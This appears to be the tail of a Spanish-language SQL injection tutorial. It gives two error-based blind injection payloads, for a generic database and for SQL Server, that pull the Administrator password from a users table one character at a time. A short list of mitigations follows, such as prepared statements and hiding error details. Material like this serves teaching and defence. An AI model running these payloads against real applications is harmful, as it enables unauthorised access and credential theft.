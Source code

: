 ```
' AND (SELECT CASE WHEN (ASCII(SUBSTRING((SELECT password FROM users WHERE username='Administrator'),1,1)) > 109) THEN 1/0 ELSE 'a' END)='a
```

* SQLServer (conv. a int para forzar error):

```
' AND (SELECT CASE WHEN (ASCII(SUBSTRING((SELECT TOP 1 password FROM users WHERE username='Administrator'),1,1)) > 109) THEN CONVERT(int,'nota') ELSE 'a' END)='a
```

---

## 12) Mitigaciones

* Prepared statements; no concatenar SQL con input.
* No devolver detalles de errores al cliente.
* Menos privilegios en la cuenta DB.
* Monitorizar patrones inusuales y bloquear peticiones que intentan forzar errores repetidamente.
